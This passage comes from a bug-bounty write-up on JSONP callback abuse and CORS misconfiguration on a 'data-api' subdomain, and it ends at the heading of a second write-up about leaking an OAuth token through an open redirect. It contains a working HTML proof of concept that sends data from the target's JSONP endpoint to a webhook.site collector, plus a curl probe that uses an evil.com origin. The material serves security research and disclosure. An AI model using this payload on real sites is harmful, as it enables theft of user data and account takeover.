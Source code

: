 💣 **FULL ACCOUNT TAKEOVER POTENTIAL**

**PoC: Hosted version**

```html
<html>
  <body>
    <script>
      function dump(d) {
        fetch("https://webhook.site/YOUR-ID", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify(d)
        });
      }
    </script>
    <script src="https://data-api.target.com/getData?callback=dump"></script>
  </body>
</html>
```

**cURL for CORS Misconfig Detection:**

```http
curl -i -H "Origin: https://evil.com" \
     -H "Cookie: session=validuser" \
     "https://data-api.target.com/getData?callback=evil"
```

**Expected Response:**

Status: 200

Headers:

- `Access-Control-Allow-Origin: * Access-Control-Allow-Credentials: true Content-Type: application/javascript`

# 🧠 Lessons Learned (With Pain)

- JSONP is still alive and dangerous
- Always check **callback**, **cb**, **jsonp**, **function**, etc. in parameters
- CORS misconfigs make things way worse
- Don’t ignore boring-looking subdomains. That `data-api` one paid me.

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 

# Open Redirect + Referer Header = $3,000 Access Token Leak by Monika Sharma

### A clever exploitation of open redirect and Referer headers in PlayStation's OAuth flow.


!  To replicate this vulnerability you need:  
